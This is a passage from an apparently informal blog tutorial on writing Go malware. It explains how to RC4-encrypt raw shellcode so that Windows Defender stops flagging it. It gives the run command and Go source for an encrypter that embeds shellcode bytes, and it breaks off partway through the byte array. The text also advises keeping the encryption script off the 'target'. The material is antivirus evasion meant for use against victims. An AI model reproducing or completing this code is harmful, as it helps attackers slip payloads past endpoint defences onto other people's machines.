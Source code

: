 ## Wait, does W1ndoes know about teh shellcodez? Yep, it knows...  

![](/assets/images/go-malware/go-malware-got-popped.png)  

## We need to encrypt teh shellc0dez so Weendows doesn't know... One can run the encrypter on Windows, but it gets flagged (have to turn off defender). Instead run encrypt.go on linux since we were just using hexdump anyway and its a better workflow... You definately don't want you encryption script left on a target.  

```  
go run encrypt.go encrypted_shellcode.bin
```  

**encrypt.go: encrypts the raw shellcode with rc4 encryption using a key and outputs it to a file on disk**  

```go
package main

import (
	"crypto/rc4"
	"io/ioutil"
	"log"
	"os"
)

func main() {
	if len(os.Args) < 2 {
		log.Fatal("Usage: go run main.go <output file>")
	}

	// Shellcode variable
	shellcode := []byte{
		0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
		0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
		0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
		0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
		0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
```